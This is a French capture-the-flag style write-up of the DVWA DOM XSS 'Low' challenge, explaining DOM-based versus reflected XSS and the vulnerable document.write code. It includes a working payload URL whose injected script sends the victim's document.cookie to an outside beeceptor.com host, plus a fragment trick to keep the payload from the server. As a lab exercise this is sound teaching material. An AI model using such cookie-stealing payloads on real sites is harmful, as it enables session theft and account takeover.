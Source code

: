 # Niveau "Low"

Ce challenge nous propose de pouvoir choisir la langue désirée parmi une liste déroulante :

![](../../../../.gitbook/assets/78714abbe98f58a09745e8a3bca721d6.png)

L'action de modification de la langue est une requête **`GET`** :

![](../../../../.gitbook/assets/3d16fd07fc8a2baf87b8dac4949dae93.png)

Voici la requête visualisée via Burp :

![](../../../../.gitbook/assets/dbdb7b36e704d06cd0c309925c0fac80.png)

On modifie alors directement la valeur de ce paramètre en injection un script :

![](../../../../.gitbook/assets/37e46a651a2ffa75df8fac16de705fb1.png)

Cela fonctionne et ressemble fortement à une XSS réfléchie. Il est possible d'aller plus loin en récupérant le jeton de session de la victime \(authentifiée\) :

```http
http://192.168.56.203:8080/vulnerabilities/xss_d/?default=%3Cscript%3Efetch(%27https://domxss.free.beeceptor.com?cookie=%27+document.cookie);%3C/script%3E
```

![](../../../../.gitbook/assets/aded7d9ebd1e5ceac370b117e448738d.png)

C'était plutôt simple puisque le serveur n'effectue aucun filtrage. Mais quelle est la différence entre la faille XSS basée sur le DOM \(DOM XSS\) et la XSS réfléchie ?

La XSS DOM s'effectue en local au sein du navigateur lui-même, très souvent quelques lignes de javascript modifiant le DOM à la volée. Dans le cas du challenge DVWA, la liste déroulante est mise à jour par le Javascript suivant \(visible dans le code HTML\) :

```markup
<form name="XSS" method="GET">
  <select name="default">
	<script>
	  if (document.location.href.indexOf("default=") >= 0) {
		  var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
			document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
			document.write("<option value='' disabled='disabled'>----</option>");
		}
					    
		document.write("<option value='English'>English</option>");
		document.write("<option value='French'>French</option>");
		document.write("<option value='Spanish'>Spanish</option>");
		document.write("<option value='German'>German</option>");
	</script>
  </select>
	<input type="submit" value="Select" />
</form>
```

La ligne 4, 5 et 6 récupèrent la valeur du paramètre nommé `default` puis la renseigne en tant que première valeur de la liste déroulante. Un exemple pour une valeur aléatoire :

![](../../../../.gitbook/assets/2cc40c6d00003fc8078f390fe2b0c4c8.png)

Si le script récupère directement la valeur dans l'URL saisie par l'utilisateur, à quoi sert l'envoi de ce paramètre au serveur ?

Réponse : à rien. D'ailleurs il est optionnel car il faut bien comprendre que dans une faille XSS basée sur le DOM la payload malicieuse n'est pas présente dans la réponse HTTP du serveur.

Afin de mieux cerner ce concept, il est possible de remplacer le `'?'` du paramètre par un fragment `'#'`. Le fragment a l'avantage de ne pas être envoyé au serveur :

![](../../../../.gitbook/assets/21ec9e476952d134d28d1ab8f1e5d253.png)

Pour preuve, voici la requête associée :

![](../../../../.gitbook/assets/c3a6645c7ed9301c4f6a1c01a3375be0.png)

Le vol de cookie va par contre fonctionner de la même façon, mais cela permet de contourner tous les contrôles implémentés côté serveur \(si présents\) :

![](../../../../.gitbook/assets/26008712a316600e83ce5e1a894b0478.png)



